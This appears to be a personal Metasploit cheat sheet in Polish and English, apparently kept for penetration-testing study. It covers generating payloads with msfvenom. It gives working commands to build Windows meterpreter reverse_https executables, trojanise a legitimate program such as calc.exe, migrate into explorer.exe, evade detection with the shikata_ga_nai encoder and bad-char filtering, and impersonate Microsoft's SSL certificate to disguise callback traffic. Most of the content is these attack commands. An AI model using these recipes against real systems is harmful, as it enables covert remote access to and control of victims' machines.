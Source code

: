 # $ msfvenom

https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

**Tutorial:** https://www.hackingarticles.in/msfvenom-tutorials-beginners/
Ciekawe payloady: https://www.hackingarticles.in/fun-metasploit-payloads/

| msfvenom | what | msfvenom help |
| ---- | ---- | ---- |
| `-p ... LHOST=... LPORT=... ...`<br><br>automatyczna migracja do procesu<br>`prpendmigrateprocess=explorer.exe prependmigrate=true` | payloads | `msfvenom --list payloads`<br>`msfvenom --list-options -p ...` |
| `-f exe` | formats | `msfvenom --list formats` |
| `> file.exe`<br>`-o file.exe` | zapisz do pliku |  |
| `-e x86/shikata_ga_nai` <br>`-i 3` | encoders | `msfvenom --list encoders` |
| `-b '\x00\x0a\x0d\x20\xff'` | bad chars to avoid |  |
| `-x calc.exe` | custom template |  |
| `-k` | keep functionality of template |  |
| `--smallest` | generate smallest possible payload |  |


https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86

## paylod z msfconsole

https://www.rapid7.com/blog/post/2020/12/23/metasploit-tips-and-tricks-for-haxmas-2020-2/#Skipping%20msfvenom's%20boot%20time

```bash
# omijanie msfvenom, generowanie payload z msfconsole
# Use the payload module:
use windows/meterpreter/reverse_https
set LHOST 127.0.0.1
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false

# Create the executable, as an alternative to msfvenom:
generate -o reverse_windows.exe -f exe

# Create a handler, as an alternative to exploit/multi/handler
to_handler / exploit -jq
```
## impersonate_ssl
request a copy of the remote SSL certyficate and creates a local (self signed) version using the information from the remote version.
```bash
$ msf> us egather/impersonate_ssl
$ msf> set rhost www.microsoft.com
$ msf> run
```
```bash
$ msf> use windows/x64/meterpreter/reverse_https
$ msf> set lhost ...
$ msf> set lport ...
$ msf> set handlersslcert </cert/path/cert.pem> # set SSL cert to use 
$ msf> set stagerverifysslcert true# TLS pinning
$ msf> generate -t exe -f ... # generate file within metasploit
$ msf> to_handler

```
## Własny shellcode zamiast metasploitowego payloadu

```bash
$ cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'
-p - instructs msfvenom to read the custom payload from the stdin
--platform win: is used to specify the platform
-e x86/shikata_ga_nai: specifies the encoder to use
-f c: sets the output format (in this case C)
```
